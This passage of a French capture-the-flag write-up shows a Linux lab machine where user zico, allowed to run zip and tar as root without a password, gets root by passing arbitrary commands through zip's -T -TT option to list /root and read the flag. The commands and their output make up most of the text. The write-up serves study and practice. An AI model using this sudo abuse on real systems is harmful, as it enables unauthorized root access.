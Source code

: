 ```plain
zico@zico:~$ id
uid=1000(zico) gid=1000(zico) groups=1000(zico)
```

Malheureusement le mot de passe cassé plus tôt (*34kroot34*) n'est pas réutilisé pour le compte root.  

Monkey g0t root
---------------

L'utilisateur zico a l'autorisation de lancer deux programmes d'archivage avec les droits root :  

```plain
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

Il y a t-il un moyen de faire exécuter des commandes à l'un de ces deux programmes ? La page de manuel de zip nous donne une solution :  

```plain
-TT cmd
--unzip-command cmd
        Use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used.  On Unix, to use a copy of unzip in the current directory instead  of  the  standard system unzip, could use:

        zip archive file1 file2 -T -TT "./unzip -tqq"

        In  cmd, {} is replaced by the name of the temporary archive, otherwise the name of the archive is appended to the end of the command.  The return code is checked for success (0 on Unix).
```

Plus qu'à récupérer le flag :  

```plain
zico@zico:~$ sudo zip archive /etc/issue -T -TT "ls /root -al"
  adding: etc/issue (stored 0%)
-rw------- 1 root root  169 Oct 20 16:44 zifzgKZx

/root:
total 44
drwx------  4 root root 4096 Jun 19 11:59 .
drwxr-xr-x 24 root root 4096 Jun  1 18:54 ..
-rw-------  1 root root 5723 Jun 19 12:09 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Jun  1 20:15 .cache
-rw-r--r--  1 root root   75 Jun 19 11:55 flag.txt
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
drwxr-xr-x  2 root root 4096 Jun  8 14:02 .vim
-rw-------  1 root root 5963 Jun 19 11:59 .viminfo
test of archive.zip OK

zico@zico:~$ sudo zip archive /etc/issue -T -TT "cat /root/flag.txt"
  adding: etc/issue (stored 0%)
#
#
#
# ROOOOT!
# You did it! Congratz!
#
```